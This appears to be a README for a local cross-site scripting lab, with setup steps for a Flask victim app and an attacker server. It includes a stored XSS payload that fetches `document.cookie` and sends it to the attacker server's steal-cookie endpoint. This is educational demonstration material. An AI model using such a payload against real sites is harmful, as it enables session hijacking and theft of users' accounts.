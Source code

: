 # Cross-Site Scripting Example

## Setup

Install needed dependencies:

```sh
python -m pip install flask flask-cors
```

Run the victim app:

```sh
python victim.py
```

You can input something in the text field and press "Submit".
You will then be redirected to `http://localhost:5000/search?query=$QUERY`.

## The Attack

Start the attacker server:

```sh
python attacker.py
```

Exploit it by going to `localhost:5000` as the attacker and inserting this comment:

```
<script>fetch(`http://localhost:5001/steal-cookie?cookie=${document.cookie}`)</script>
```

Now load `localhost:5000` as the victim (e.g. on another browser) and observe that your cookies will be stolen.
